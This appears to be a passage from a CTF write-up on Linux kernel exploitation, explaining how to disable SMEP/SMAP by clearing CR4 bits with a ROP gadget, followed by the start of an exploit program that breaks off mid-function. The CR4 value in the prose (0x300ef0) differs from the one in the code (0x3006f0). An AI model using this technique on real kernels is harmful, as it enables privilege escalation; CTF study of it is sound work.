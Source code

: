 # 0x05 Bypass SMEP/SMAP
Although this challenge doesn't need to bypass SMAP, this trick also works for turning off SMAP.
The kernel uses the CR4 register to control the SMEP and SMAP. The following figure is the structure of the CR4 register. 

![CR4 From CTF-Wiki](/Figures/Kernel/CR4.jpg)


For example, if `cr4 == 0x300ef0`
```python
bool((1<<20) & 0x3006f0) -> true # SMEP on
bool((1<<21) & 0x3006f0) -> true # SMAP on
```

Therefore, we can turn off the SMEP/SMAP by using some gadget like:
```c
pop rax; // rax<-0x6f0
mov cr4, rax;
ret
```

And the exploit part would be like this:

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <stdlib.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <stdint.h>
typedef unsigned int uint;
void Panic(char *s)
{
    printf("[!] Panic:");
    puts(s);
    exit(1);
}
uint64_t u64(uint8_t *buf)
{
    uint64_t res = 0;
    for(int i =0 ; i < 8;i++)
    {
        res = res<<8;
        res+=(uint)buf[7-i];
    }
    return res;
}

char* shellcode(){
    char * gadgets = mmap(0xdead000,0x1000,7,0x22,0,0);
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/QWB_2018/core